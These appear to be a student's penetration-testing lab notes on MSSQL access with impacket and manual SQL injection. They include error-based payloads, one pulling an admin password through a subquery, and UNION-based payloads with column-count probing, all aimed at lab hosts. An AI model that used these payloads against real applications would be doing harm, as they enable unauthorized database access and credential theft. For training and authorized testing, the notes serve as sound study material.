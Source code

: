 ### MSSQL

can use impacket

```
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth


SELECT @@version;
SELECT name FROM sys.databases;
SELECT * FROM offsec.information_schema.tables;
select * from offsec.dbo.users;
```

## Manual SQLi

### Using error payloads

example injection


```
offsec' OR 1=1 -- //
SELECT * FROM users WHERE user_name= 'offsec' OR 1=1 --
```
quick check is to append a special char liek an ' to username field to see if we get a SQL error message

can use the IN operator to execute queries

```
' or 1=1 in (select @@version) -- //
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

### UNION-based payloads
For UNION SQLi attacks to work, we first need to satisfy two conditions:
    1. The injected UNION query has to include the same number of columns as the original query.
    2. The data types need to be compatible between each column.

Need to know exact number of columns present. to discover this we can run:
```
' ORDER BY 1-- //
```

The above statement orders the results by a specific column, meaning it will fail whenever the selected column does not exist.

if we have 5 columns and a query like
```
select * from users where name LIKE cmd%
```

we can inject:

```
%' UNION SELECT database(), user(), @@version, null, null -- // database won't show up bc it's not an int
%' UNION SELECT null, database(), user(), @@version, null, null -- // better bc vals are all in string cols
```
